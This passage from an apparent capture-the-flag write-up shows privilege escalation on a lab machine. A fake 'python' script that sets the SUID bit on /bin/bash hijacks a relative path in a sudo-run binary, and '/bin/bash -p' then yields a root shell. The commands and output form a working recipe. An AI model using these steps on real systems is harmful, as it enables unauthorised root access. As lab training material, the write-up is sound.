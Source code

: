 **To exploit this relative path, I'll:**

- Create a malicious "python" Bash script that will add SUID sticky bit into `/bin/bash`, and mark it as executable:

```
Orka@osboxes:/usr/sbin$ echo "chmod +s /bin/bash" > python
Orka@osboxes:/usr/sbin$ chmod +x python
```

- Run the `bitcoin` binary with `sudo`:

```
Orka@osboxes:/usr/sbin$ sudo /home/Orka/Desktop/bitcoin
Enter the password : password
Access Granted...
			User Manual:			
Maximum Amount Of BitCoins Possible To Transfer at a time : 9 
Amounts with more than one number will be stripped off! 
And Lastly, be careful, everything is logged :) 
Amount Of BitCoins : 1
```

- Verify the exploit works:

```
Orka@osboxes:/usr/sbin$ ls -lah /bin/bash
-rwsr-sr-x 1 root root 1.1M Jul 12  2019 /bin/bash
```

Yes!! It worked! **Let's spawn a bash shell with SUID privilege!**

```
Orka@osboxes:/usr/sbin$ /bin/bash -p
bash-4.3# whoami;hostname;id;ip a
root
osboxes
uid=1001(Orka) gid=1001(Orka) euid=0(root) egid=0(root) groups=0(root),1001(Orka)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:94:36:70:83:dd brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.35/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::94:36ff:fe70:83dd/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm root! :D

# Rooted

**root.txt:**
```
bash-4.3# cat /root/root.txt
{Redacted}
```
